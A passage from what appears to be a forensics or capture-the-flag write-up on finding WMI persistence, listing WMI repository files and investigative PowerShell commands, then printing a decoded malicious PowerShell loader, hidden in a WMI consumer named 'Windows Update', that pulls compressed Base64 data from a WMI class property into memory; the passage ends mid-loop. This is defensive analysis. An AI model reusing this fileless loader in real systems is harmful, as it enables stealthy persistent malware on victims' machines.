 ### WMI Files
- C:\\Windows\\System32\\wbem\\Repository - Stores the CIM database files 
	- OBJECTS.DATA - Objects managed by WMI
	- INDEX.BTR - Index of files imported into OBJECTS.DATA
	- MAPPING\[1-3].MAP - correlates data in OBJECTS.DATA and INDEX.BTR

### Investigative commands
- Get-WMIObject -Namespace root\Subscription -Class __EventFilter
- Get-WMIObject -Namespace root\Subscription -Class __EventConsumer
- Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding


# Starting the Investigation
As we have the compromised user's WMI repository, we should be able to parse it and extract information about what types of commands were being run.  The post mentioned above also talks about a tool from Mandiant called "[python-cim](https://github.com/mandiant/flare-wmi/tree/master/python-cim)", but I had issues getting it to work given that it appears to have been written for Python2 instead of Python3 and some of the libraries used are either no longer available or don't function the same anymore.  Anyway, I found another repository called [WMI_Forensics](https://github.com/davidpany/WMI_Forensics) with a script that did correctly parse our files.  I used the command below to run the PyWMIPersistenceFinder.py script, which is described as locating potential WMI persistence by keyword searching the OBJECTS.DATA file individually instead of using the entire WMI repository.

```bash
python2 WMI_Forensics/PyWMIPersistenceFinder.py OBJECTS.DATA 
```

![](images/perseverance-encoded-ps.png)

As seen in the image above, the script located a specific WMI consumer named "Windows Update" that was running an encoding PowerShell command.  A pretty suspicious start.  This command decodes to the commands below, though I have cleaned it up onto multiple lines and added comments for readability.

```powershell
# Read in the contents of a WMI Class' Property value
$file = ([WmiClass]'ROOT\cimv2:Win32_MemoryArrayDevice').Properties['Property'].Value;
# Set-Varable "o" to be a new MemoryStream
sv o (New-Object IO.MemoryStream);
# Set-Variable "d" to be the Base64-decoded and decompressed version of that data
sv d (New-Object IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String($file),[IO.Compression.CompressionMode]::Decompress));
# Set-Variable "b" to be a new byte array 1024 bytes long
sv b (New-Object Byte[](1024));
# Set-Variable "r" to be 1024
sv r (gv d).Value.Read((gv b).Value,0,1024);
# Loop over the content in "d" 1024 bytes at a time and write it to  the MemoryStream in "o"
while((gv r).Value -gt 0)
{
	(gv o).Value.Write((gv b).Value,0,(gv r).Value);
	sv r (gv d).Value.Read((gv b).Value,0,1024);
```